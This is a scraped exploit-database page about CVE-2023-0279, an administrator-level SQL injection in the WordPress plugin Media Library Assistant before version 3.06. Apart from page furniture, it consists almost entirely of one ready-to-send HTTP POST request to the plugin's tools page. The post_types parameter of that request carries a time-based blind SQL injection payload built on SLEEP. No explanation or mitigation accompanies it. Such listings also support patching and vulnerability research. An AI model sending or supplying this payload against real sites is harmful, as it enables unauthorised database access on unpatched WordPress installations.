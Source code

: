 ```yaml
---
title: Media Library Assistant < 3.06 - Admin+ SQLi exploit
url: https://sploitus.com/exploit?id=WPEX-ID:42DB1BA5-1B14-41BD-A2B3-7243A84C9D3D&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-02-17
fetch_date: 2025-10-04T06:49:57.895735
---
```


# Media Library Assistant < 3.06 - Admin+ SQLi exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Media Library Assistant < 3.06 - Admin+ SQLi CVE-2023-0279

2023-02-16 | CVSS 7.2

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=WPEX-ID:42DB1BA5-1B14-41BD-A2B3-7243A84C9D3D
POST /wp-admin/tools.php?page=insertfixit-tools HTTP/1.1

insertfixit-old_post_lower=&insertfixit-post_lower=&insertfixit-old_attachment_lower=&insertfixit-attachment_lower=&insertfixit-old_post_upper=&insertfixit-post_upper=&insertfixit-old_attachment_upper=&insertfixit-attachment_upper=&insertfixit-old_post_types=%27post%27%2C+%27page%27&insertfixit-post_types=%27post%27%2C+%27page%27)+AND+(SELECT+2067+FROM+(SELECT(SLEEP(5)))nWvn))--+&insertfixit-old_data_source=%5B%2Balt_text%2B%5D&insertfixit-data_source=%5B%2Balt_text%2B%5D&insertfixit-old_attribute_name=data-pin-description&insertfixit-attribute_name=data-pin-description&insertfixit-old_figcaption_template=%28%5B%2Bpost_excerpt%2B%5D%29&insertfixit-figcaption_template=%28%5B%2Bpost_excerpt%2B%5D%29&insertfixit-first-item=lowest&insertfixit-old_reference_shortcodes=gallery%2Cmla_gallery&insertfixit-reference_shortcodes=gallery%2Cmla_gallery&insertfixit-old_reference_parameter=ids&insertfixit-reference_parameter=ids&insertfixit-page_library_template=%28%5B%2Bpage_terms%3Acategory%2Csingle%2B%5D%3A+%29%28%5B%2Bpage_title%2B%5D+%29%5B%2Bindex%2B%5D&insertfixit-parent_library_template=%28%5B%2Bparent_terms%3Acategory%2Csingle%2B%5D%3A+%29%28%5B%2Bparent_title%2B%5D+%29%5B%2Bindex%2B%5D&insertfixit-from_parent_taxonomy=category&insertfixit-to_item_taxonomy=attachment_category&insertfixit-item_add_replace=add&insertfixit-item_taxonomy=attachment_tag&insertfixit-parent_taxonomy=post_tag&insertfixit-add_replace=add&insertfixit-item_fields=&insertfixit-fields_option=text&insertfixit-action=Refresh+Caches
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)